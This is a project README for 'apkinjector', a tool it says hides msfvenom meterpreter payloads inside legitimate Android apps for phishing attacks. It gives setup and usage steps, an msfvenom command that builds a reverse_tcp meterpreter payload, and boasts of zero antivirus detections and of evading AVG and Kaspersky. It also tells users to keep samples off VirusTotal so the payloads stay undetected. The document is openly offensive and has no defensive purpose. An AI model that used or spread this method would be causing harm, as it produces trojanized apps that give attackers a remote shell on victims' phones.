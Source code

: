 # apkinjector
Android APK Antivirus evasion for msfvenom generated payloads to inject into another APK file for phishing attacks.
<br><br>
<b> -- Please do not upload "injected" files to VirusTotal.com -- </b><br>
<br>
<br>
<b>Verified automatic injection on 3/4 apps it was tested against. The automated injection on Facebook was unable to locate the .smali file to inject into. With this, I went ahead and added a manual entry for the .smali file with output to assist in finding it.</b>
<br><br>
<b>Setup:</b><br>
chmod +x apkinjector<br>
mv apkinjector /usr/local/bin/.<br>
<br>
<b>On first run:</b><br>
-Downloads and places apktool.jar in the user's /usr/local/bin directory<br>
-Generates debug keystore for signing. Places it in ~/.android/<br>
<b>NOTE:</b> If wanting to customize each signature, then remove the keystore before running the script.<br>
<br>
<b>Usage:</b><br>
apktool \<payload>.apk \<original>.apk<br>
<br>
<b>Input:</b><br>
This script takes a msfgenerated payload as input along with an .apk you want to inject into.<br>
To generate the payload: msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT<PORT> -o \<payload>.apk<br>
<br>
<b>Output:</b><br>
injected_\<original>.apk<br>
<br>
<b>Antivirus detection:</b><br>
0/35 on nodistribute - 16Feb17<br>
Verified for AVG mobile<br>
Verified for Kaspersky mobile<br>
<br>
<br>
<b>Debugging</b><br>
Comment out the removal of the /tmp/payload and /tmp/original directories to see the file structure that was compiled.<br>
